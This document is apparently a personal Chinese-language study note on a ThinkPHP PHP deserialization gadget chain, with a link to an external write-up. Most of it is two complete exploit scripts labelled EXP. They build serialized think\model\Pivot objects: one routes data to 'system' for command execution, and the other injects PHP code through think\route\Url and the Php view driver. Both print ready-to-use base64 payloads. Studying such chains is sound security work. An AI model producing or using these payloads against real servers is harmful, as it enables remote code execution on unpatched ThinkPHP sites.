

疯狂盗图

https://xz.aliyun.com/t/6479      



反序列化的入口是在model类中,该类是一个抽象类,实际利用的化是需要找它的子类的,这里利用了两个继承类,Conversion和Attribute。

这里讲解一下trait:https://zhuanlan.zhihu.com/p/31362082

这张图感觉真的太清晰了,膜一下

# EXP

```php
<?php


namespace think\model\concern {
    trait Conversion{
        protected $visible;
    }
    trait RelationShip{
        private $relation;
    }
    trait Attribute{
        private $withAttr;
        private $data;
        protected $type;
    }
    trait ModelEvent{
        protected $withEvent;
    }
}

namespace think {
    abstract class Model{
        use model\concern\RelationShip;
        use model\concern\Conversion;
        use model\concern\Attribute;
        use model\concern\ModelEvent;
        private $lazySave;
        private $exists;
        private $force;
        protected $connection;
        protected $suffix;
        function __construct($obj)
        {
            if($obj == null){
                $this->relation = array("Pp1ove"=>[]);

                $this->withAttr = array("Pp1ove"=>"system");
            }else{
                $this->lazySave = true;          
                $this->withEvent = false;  
                 $this->exists = true;
                $this->force = true;
                $this->data = array("Pp1ove"=>[]);  
                $this->connection = "mysql";       //connect
                $this->suffix = $obj;
            }
        }
    }
}


namespace think\model {
    class Pivot extends \think\Model{
        function __construct($obj)
        {
            parent::__construct($obj);
        }
    }
}


namespace {
    $pivot1 = new \think\model\Pivot(null);
    $pivot2 = new \think\model\Pivot($pivot1);
    echo base64_encode(serialize($pivot2));
}

```

```php
#另一种exp,太难了,分析不出来
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = [7];
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new Validate,$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
    class Validate{
        protected $type;
        function __construct(){
            $this->type = [
                "getDomainBind" => [new view\driver\Php,'display']
            ];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{}
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}

namespace{
    echo base64_encode(serialize(new think\Model\Pivot('<?php phpinfo(); exit(); ?>')));
}
```